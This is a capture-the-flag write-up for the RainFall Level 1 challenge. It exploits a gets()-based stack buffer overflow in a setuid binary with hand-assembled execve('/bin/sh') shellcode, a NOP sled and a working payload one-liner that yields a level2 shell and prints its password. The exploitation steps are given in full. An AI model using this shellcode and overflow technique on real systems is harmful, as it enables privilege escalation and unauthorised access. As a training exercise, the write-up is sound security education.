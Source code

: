 # Level 1

- We login as user level1:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level1/level1
```

```
level1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

```
level1@RainFall:~$ gdb level1
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
   0x0804848d <+13>:    mov    %eax,(%esp)
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
   0x08048496 <+22>:    ret
End of assembler dump.
```


- This exercise is an introduction to stack [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow).
The program generously allows us to write without limits into its stack.
We just need to write enough characters to reach the return address of the `main` function.
Then, we will replace this address with the address of a memory area that will contain a [shellcode](https://en.wikipedia.org/wiki/Shellcode) which will call `execve("/bin/sh")`.

>![stack1](https://upload.wikimedia.org/wikipedia/commons/0/00/Pile_avant_appel.png?20120112163251)![stack2](https://upload.wikimedia.org/wikipedia/commons/d/d9/Pile_debordement.gif?20120112163309)


- First, we need to know from how many characters the return address of our function starts to be substituted. It can be done quickly using a tool like [Metasploit](https://en.wikipedia.org/wiki/Metasploit).
```
$msf-pattern_create -l [pattern length] | [binary]
... get overried EIP address from GDB
```

```
$msf-pattern_offset -l [pattern length] -q [overried EIP address]
```

- The return address is found to be replaced after the 76th character:
```
(gdb) b*0x08048495
```

```
r < <(python -c "print('A'*76 + 'BBBBCCCC')")
Starting program: /home/user/level1/level1 < <(python -c "print('A'*76 + 'BBBBCCCC')")

Breakpoint 1, 0x08048495 in main ()
(gdb) i f
Stack level 0, frame at 0xbffff740:
 eip = 0x8048495 in main; saved eip 0x42424242
 Arglist at 0xbffff738, args:
 Locals at 0xbffff738, Previous frame's sp is 0xbffff740
 Saved registers:
  ebp at 0xbffff738, eip at 0xbffff73c
```
>`saved eip 0x42424242`


- 42 is the hexadecimal ASCII value of the character 'B'. So, `BBBB` should be replaced with an address that points to the beginning of our shellcode.


- Let's make that shellcode.
```asm
section .text
    global _start

_start:
    xor esi, esi            ; 
    xor edi, edi            ; 
    xor ecx, ecx            ; 
    xor edx, edx            ; Cleaning registers

    push edx                ; Null terminate the string
    push 0x68732f2f         ; Pushing "//sh"
    push 0x6e69622f         ; Pushing "/bin"
    
    mov ebx, esp            ; Pointer to the string
    xor eax, eax            ;
    mov al, 0xb             ; 11 is the syscall number of execve
    int 0x80
```

```
$ nasm -f elf32 src.asm -o obj.o
```

```
$ objdump -d obj.o

test.o:     file format elf32-i386


Disassembly of section .text:

00000000 <_start>:
   0:   31 f6                   xor    %esi,%esi
   2:   31 ff                   xor    %edi,%edi
   4:   31 c9                   xor    %ecx,%ecx
   6:   31 d2                   xor    %edx,%edx
   8:   52                      push   %edx
   9:   68 2f 2f 73 68          push   $0x68732f2f
   e:   68 2f 62 69 6e          push   $0x6e69622f
  13:   89 e3                   mov    %esp,%ebx
  15:   31 c0                   xor    %eax,%eax
  17:   b0 0b                   mov    $0xb,%al
  19:   cd 80                   int    $0x80
```


- So we have a 27 bytes shellcode.
```
$ echo -ne "\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80" | wc -c
27
```


- Now, we need to store our shellcode somewhere in the program's memory, for example, writing it into the memory area filled by `<gets@plt>`. Let's start by retrieving this memory address.
```
level1@RainFall:~$ gdb level1
```

```
(gdb) b*0x08048495
```

```
(gdb) r < <(echo -n "123")
Starting program: /home/user/level1/level1 < <(echo -n "123")

Breakpoint 1, 0x08048495 in main ()
(gdb) x $eax
0xbffff6d0:     0x00333231
```


- The address is `0xbffff6d0`, this means that by launching our program like so `(gdb) r < <(python -c "print '$SHELLCODE' + 'a'*(76 - 27) + '\xd0\xf6\xff\xbf'")`, the program's execution flow should be redirected to our shellcode.


- However, `(gdb) r < <(echo lol)` is equivalent to `$ echo lol | our_binary`. Thus, the pipe will send EOF once `lol` has been transmitted to `our_binary`, which means that `stdin` will be closed for `our_binary`. Since `execve()` inherits the I/O of the parent process, our `/bin/sh` would close immediately. That's why we will add `cat` to keep `stdin` open during `execve()`.
```
(gdb) r < <(python -c "print '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + 'a'*49 + '\xd0\xf6\xff\xbf'"; cat)
...
whoami
level1
```


- A shell has been successfully launched, let's take advantage of [the setuid and setgid permission bits](https://en.wikipedia.org/wiki/Setuid) by doing the same thing without GDB.
```
level1@RainFall:~$ (python -c "print '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + 'a'*49 + '\xd0\xf6\xff\xbf'"; cat) | ./level1

Illegal instruction (core dumped)
```


- It doesn't work, indeed, the environment is slightly different between a program launched with/without GDB. That's why the exact address we are targeting isn't exactly the same. We therefore need to find the correct address. By adding [NOP instructions](https://fr.wikipedia.org/wiki/NOP) before our shellcode, we can make the address search less laborious. We would then be tempted to do it like this:
```
python -c "print '\x90'*49 + '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + '\xd0\xf6\xff\xbf'"
```


- But since our shellcode is stored directly in the stack, and `esp` is at that moment of program execution at the level of the previous stack frame, our instructions `push $0x68732f2f` and `push 0x6e69622f` would corrupt our shellcode, and it wouldn't work.
So, we need to keep a bit of space, precisely 8 bytes:
```
python -c "print '\x90'*41 + '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + 'a'*8 + '\xd0\xf6\xff\xbf'"
```

- Thus, thanks to these NOP instructions, the execution of our shellcode will be able to succeed from a broader range of addresses.
```
level1@RainFall:~$ (python -c "print '\x90'*41 + '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + 'a'*8 + '\xf0\xf6\xff\xbf'"; cat) | ./level1

whoami
level2

cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```